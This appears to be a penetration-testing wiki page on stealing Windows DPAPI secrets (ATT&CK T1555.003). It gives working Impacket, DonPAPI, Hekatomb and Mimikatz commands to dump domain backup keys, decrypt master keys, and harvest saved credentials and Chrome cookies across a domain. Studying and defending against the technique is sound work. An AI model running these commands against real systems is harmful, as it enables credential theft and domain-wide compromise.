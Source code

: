 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1555.003
---
```


# DPAPI secrets

## Theory

The DPAPI (Data Protection API) is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at:

```bash
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

Application like Google Chrome, Outlook, Internet Explorer, Skype use the DPAPI. Windows also uses that API for sensitive information like Wi-Fi passwords, certificates, RDP connection passwords, and many more.

Below are common paths of hidden files that usually contain DPAPI-protected data.

```bash
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, DPAPI-data can be manipulated (mainly offline) with tools like [dpapick](https://github.com/jordanbtucker/dpapick) (Python), [dpapilab](https://github.com/dfirfpi/dpapilab) (Python), [Impacket](https://github.com/SecureAuthCorp/impacket)'s [dpapi.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/dpapi.py) and [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python).

```bash
# Decrypt a master key
dpapi.py masterkey -file "/path/to/masterkey_file" -sid $USER_SID -password $MASTERKEY_PASSWORD

# Obtain the backup keys & use it to decrypt a master key
dpapi.py backupkeys -t $DOMAIN/$USER:$PASSWORD@$TARGET --export
dpapi.py masterkey -file "/path/to/masterkey_file" -pvk "/path/to/backup_key.pvk"

# Decrypt DPAPI-protected data using a master key
dpapi.py credential -file "/path/to/protected_file" -key $MASTERKEY
```

[DonPAPI](https://github.com/login-securite/DonPAPI) (Python) can also be used to remotely extract a user's DPAPI secrets more easily. It supports [pass-the-hash](broken-reference), [pass-the-ticket](broken-reference) and so on.

```bash
DonPAPI.py 'domain'/'username':'password'@<'targetName' or 'address/mask'>
```

[Hekatomb](https://github.com/Processus-Thief/HEKATOMB) (python script) can also be used. It connects to LDAP directory to retrieve all computers and users informations. Then it will download all DPAPI blob of all users from all computers and uses Domain backup keys to decrypt them.

```bash
# Obtain the backup keys & use it to decrypt all blob from users
hekatomb $DOMAIN/$USER:$PASSWORD@$TARGET

# Decrypt all blob from users using saved backup key
hekatomb -pkv /path/to/backup_key.pvk $DOMAIN/$USER:$PASSWORD@$TARGET
```
{% endtab %}

{% tab title="Windows" %}
On Windows systems [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used to extract, decrypt or use specific master keys using specified passwords or given sufficient privileges.

```bash
# Extract and decrypt a master key
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /sid:$SID /password:$PASSWORD /protected

# Extract and decrypt all master keys
sekurlsa::dpapi

# Extract the backup keys & use it to decrypt a master key
lsadump::backupkeys /system:$DOMAIN_CONTROLLER /export
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /pvk:$BACKUP_KEY_EXPORT_PVK

# Decrypt Chrome data
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"

# Decrypt DPAPI-protected data using a master key
dpapi::cred /in:"C:\path\to\encrypted\file" /masterkey:$MASTERKEY
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dpapi-extracting-passwords" %}

{% embed url="https://www.synacktiv.com/ressources/univershell_2017_dpapi.pdf" %}
